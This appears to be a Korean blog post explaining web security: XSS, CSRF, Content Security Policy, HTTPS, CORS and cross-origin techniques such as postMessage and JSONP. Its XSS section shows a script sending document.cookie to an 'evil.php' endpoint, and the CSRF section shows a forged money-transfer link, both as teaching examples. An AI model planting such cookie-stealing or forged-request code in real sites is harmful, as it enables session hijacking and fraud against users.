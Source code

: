 ```yaml
---
title: "웹 보안"
date: "2021-06-03"

---
```


개방형 웹 앱에서는 보안을 확인하는 것이 중요하다. 유저의 개인정보가 유출될수도 있고, 인터넷 은행 같은 서비스에서는 자산적 피해로 이어질 수 있다. 그래서 이 포스트에선 **웹 공격**과 **웹 보안**에 대해 알아보고자 한다.

## 웹 공격

웹 공격에는 대표적으로 두 가지가 있다. 

- [XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting): 세션 하이재킹을 통해 서버와 요청 응답을 주고 받는 공격

```html
<--! 다음과 같은 코드를 공격 웹 사이트에 심어놓음으로 인해 cookie를 evil.php로 전송하여 탈취 -->
<SCRIPT type="text/javascript">
	var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```

- [CSRF](https://developer.mozilla.org/en-US/docs/Glossary/CSRF): 인증된 사용자를 통해 원하는 요청을 전송하는 공격

```html
<--! www.example.com/transfer이 송금이고 공격받는 사용자가 인증되었다고 가정했을 때 -->
<--! input 검사를 하지 않는 FAQ 같은 곳에 삽입할 수 있을 것이다. -->
<a href="www.example.com/transfer?account=attackerAccount&amount=$100">자세히 알아보기</a>
```



## 콘텐츠 보안 정책(CSP)

CSP는 XSS처럼 데이터를 삽입해 공격을 하는 막는 보안 계층이다.

일반적으로  [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) 헤더를 사용하고, <meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';"> 이와 같이 meta 태그로 설정할 때도 있다.

가장 중요한 값은 default-src 인데, 이는 인라인 스크립트와 스타일이 실행되는 것을 방지한다. 아래 몇가지 예를 보면서 뜻을 알아보자.

예1) 모든 콘텐츠가 사이트 고유의 출처에서 제공되기를 원함.

```
Content-Security-Policy: default-src 'self'
```

예2) 이미지는 모든 곳에서 제공될 수 있지만, 스크립트는 지정된 서버에서만 허용.

```
Content-Security-Policy: default-src 'self'; img-src *; script-src userscripts.example.com
```

이처럼 리소스 출처에 제한을 두면서 공격에 대처하는 방법이다.

## 연결 보안

### HTTPS

SSL 프로토콜을 이용하여 비공개로 정보를 교환할 수 있게 한다. SSL을 통해 인증서를 발급하고 클라이언트는 브라우저의 CA리스트를 확인하여 서버가 믿을 수 있는 서버인지 확인한다. 

클라이언트, 서버에서 각각 난수를 생성하고 그걸 이용하여 서버에서 세션키를 생성.

세션키를 대칭키로 이용해서 데이터 송수신.

세션 종료 시 세션키를 폐기한다.``

## CORS

[SOP](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)에 의해 같은 프로토콜, 호스트, 포트에 의해서 문서나 스크립트를 가져오게 된다. 이 때 다른 도메인로 요청하려는 경우가 생기는데 이때 사용하는 방법이 CORS이다.

먼저 CORS는 아래의 두가지 경우로 나뉜다.

### Simple request

1. HTTP Method: GET, HEAD(GET으로 요청했을 때 반환하는 헤더를 요청), POST

2. HTTP Header: User Agent가 자동으로 설정한 헤더외에 수동으로 설정할 수 있는 헤더는 Fetch 명세의 ["CORS-safelisted request-header"](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)

3. Conent-Type Header: 다음 값들만 허용

   - `application/x-www-form-urlencoded`

   - `multipart/form-data`
   - `text/plain`

조건은 위의 3개를 다 만족해야 하고 이 경우엔 서버에서 설정한 **Access-Control-Allow-Origin** 헤더의 값만 충족한다면 도메인이 다르더라도 리소스를 받을 수 있다.

### Preflight Request

simple request를 제외한 모든 요청은 다 이 경우에 해당한다. 이 때는 요청 응답을 받는 프로세스가 달라지는데,

먼저, OPTIONS 메소드로 서버에서 허용하고 있는 아래의 4가지 값을 확인한다.

- Access-Control-Allow-Origin
- Access-Control-Allow-Methods
- Access-Control-Allow-Headers
- Access-Control-Max-Age

그리고 클라이언트에서 보낸 요청이 조건 중 상위 3가지의 응답을 충족하는지 확인하고, 한다면 본래의 요청을 다시 보내 응답을 받고 충족하지 못한다면 브라우저가 CORS error를 뱉는다. 이 때 마지막 `Access-Control-Max-Age` 는 preflight request의 캐시 시간이다.

## CORS외에 다른 도메인으로 리소스를 요청하는 방법

### postMessages

Window object간에 메세지를 통신할 수 있게 한다.

```javascript
// popup 여는 쪽 Origin: http://example.com:8080
var popup = window.open('http://www.example.com')
popup.postMessage("hi there", 'http://www.example.com')
```

```javascript
// 메세지 받는 쪽 Origin: http://www.example.com
function receiveMessage(event)
{
  // Do we trust the sender of this message?
  if (event.origin !== "http://example.com:8080") return;
  event.source.postMessage(
    "hi there yourself!  the secret response " + "is: rheeeeet!", event.origin
  );               
}

window.addEventListener("message", receiveMessage, false);
```

### JSONP

XHR 객체를 사용하지 않고 <script> 태그를 사용하는 방법

콜백함수를 반환해서 클라이언트에 있는 콜백함수를 실행하게 함

```html
<script src="demo_jsonp.php">
  // response example: myFunction({name: "John", age: 30})
```

만약 클라이언트의 콜백을 예측할 수 없다면? 그 땐 서버 파일에서 파라미터를 콜백이름으로 받아 그대로 리턴해줄 수 있다.

```html
<script src="jsonp_demo_db.php?callback=myDisplayFunction"></script>
```

### xDomain

#### 현재는 deer

서버에는 proxy.html 만 생성하고 

```html
<--! http://www.server.com의 proxy.html -->
  <!DOCTYPE HTML>
<script src="//unpkg.com/xdomain@0.8.2/dist/xdomain.min.js" master="http://www.client.com"></script>

```

클라이언트에는 slave 속성만 설정해준다.

```html
<--! // xdomain package도 포함하고 있어야 함, http://www.client.com -->
<script src="//unpkg.com/xdomain@0.8.2/dist/xdomain.min.js" slave="http://www.server.com/proxy.html"></script>
```

요청할 땐 xhr을 사용한다.

```javascript
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.server.com/secret/file.txt");
```



### 

